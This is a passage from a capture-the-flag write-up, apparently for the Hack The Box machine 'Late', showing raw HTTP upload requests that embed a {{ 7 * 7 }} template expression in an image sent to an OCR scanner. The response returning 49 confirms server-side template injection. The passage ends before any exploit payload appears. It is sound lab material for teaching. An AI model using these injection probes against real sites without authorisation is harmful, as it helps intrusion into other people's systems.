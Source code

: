 ```
Origin: http://images.late.htb
Connection: close
Referer: http://images.late.htb/
Upgrade-Insecure-Requests: 1
Sec-GPC: 1

-----------------------------22559853622865390322997987377
Content-Disposition: form-data; name="file"; filename="tmp6.png"
Content-Type: image/png

PNG


[... SNIP ...]
png data for image containing {{ 7 * 7 }}
-----------------------------22559853622865390322997987377--

```
and in the response we can see:  
```
HTTP/1.1 200 OK
Server: nginx/1.14.0 (Ubuntu)
Date: Thu, 14 Jul 2022 14:36:29 GMT
Content-Type: text/plain; charset=utf-8
Content-Length: 10
Connection: close
Content-Disposition: attachment; filename=results.txt
Last-Modified: Thu, 14 Jul 2022 14:36:29 GMT
Cache-Control: no-cache
ETag: "1657809389.9371333-10-375655978"

<p>49
</p>
```
so we detected that the site is affected by an SSTI vulnerability.  
Once we have detected the template injection potential, the next step is to identify the template engine.
Although there are a huge number of templating languages, many of them use very similar syntax that is specifically chosen not to clash with HTML characters. We can follow the tree on [book.hacktricks.xyz](https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection), here, fuzzing the template engine we can discover what kind of exploit we can run against the application.
```
POST /scanner HTTP/1.1
Host: images.late.htb
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:91.0) Gecko/20100101 Firefox/91.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: multipart/form-data; boundary=---------------------------404991211334584715701059619541
Content-Length: 1639
Origin: http://images.late.htb
Connection: close
Referer: http://images.late.htb/
Upgrade-Insecure-Requests: 1
Sec-GPC: 1

-----------------------------404991211334584715701059619541
Content-Disposition: form-data; name="file"; filename="tmp7.png"
Content-Type: image/png

PNG


```